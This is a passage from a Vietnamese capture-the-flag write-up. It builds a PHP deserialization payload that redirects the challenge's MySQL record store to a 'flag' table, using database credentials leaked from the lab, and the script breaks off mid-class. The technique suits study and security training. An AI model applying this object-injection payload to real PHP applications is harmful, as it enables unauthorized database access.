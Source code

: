 Gửi request với cookie vừa tạo

![image-20230524173920552](./assets/image-20230524173920552.png)

Vậy là mình đã có đủ các tham số để connect tới MySQL

```php
$mysql_host = 'mysql'
$mysql_database = 'challenge'
$mysql_user = 'user'
$mysql_password = 'j90dsgjdjds09djvupx'
```

Để connect đến MySQL thì mình cũng làm tương tự như của chương trình ở trong `index.php`, chỉ cần thay tên bảng thành `flag` là được

```php
$albums = new Albums(new MysqlRecordStore($mysql_host, $mysql_user, $mysql_password, $mysql_database, 'flag'));
```

Viết script để tạo chuỗi serialize `get_flag.php`

```php
<?php
class MysqlRecordStore 
{
    private $mysqli;
    private $table;
    private $host;
    private $user;
    private $pass;
    private $db;

    public function __construct($host, $user, $pass, $db, $table) {
        $this->host = $host;
        $this->user = $user;
        $this->pass = $pass;
        $this->db = $db;
        $this->table = $table;
    }
}

class Albums {
```